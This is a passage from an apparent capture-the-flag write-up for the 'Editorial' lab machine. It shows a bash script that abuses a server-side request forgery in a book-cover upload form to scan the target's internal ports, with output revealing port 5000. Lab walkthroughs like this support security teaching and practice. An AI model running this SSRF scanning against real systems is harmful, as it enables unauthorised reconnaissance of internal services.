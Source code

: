![burp ssrf](../../img/Editorial/burp-ssrf-res.png)

When the URL request is incorrect, the response is `/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg`. We’ll write a script that iterates over a [list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Infrastructure/common-http-ports.txt) of HTTP ports and identifies the ports whose responses differ from this default.

First we will need to create a file `test.txt` to send it in the `bookfile` field.

```
echo 'test' > test.txt
```

Then we execute the following bash script.

```
nano tryPorts.sh
```

```bash
#!/bin/bash

ports=$(cat /usr/share/seclists/Discovery/Infrastructure/common-http-ports.txt)

for port in $ports; do
  res=$(curl -s -X POST http://editorial.htb/upload-cover -F "bookurl=http://127.0.0.1:$port" -F "bookfile=@test.txt")
  echo -ne "$port - $res                    \r"
  if ! [ "$res" == "/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg" ]; then
    echo -e "\nPort: $port"
    echo "$res"
  fi
done
echo
```

* Change the path of the ports wordlist in the `3rd` line.
* Change the response string on error in the `8th` line.

```
chmod +x tryPorts.sh
./tryPorts.sh

5000 - static/uploads/fa532740-487b-44c3-851d-d981282b8e78                                          
Port: 5000
static/uploads/fa532740-487b-44c3-851d-d981282b8e78
```
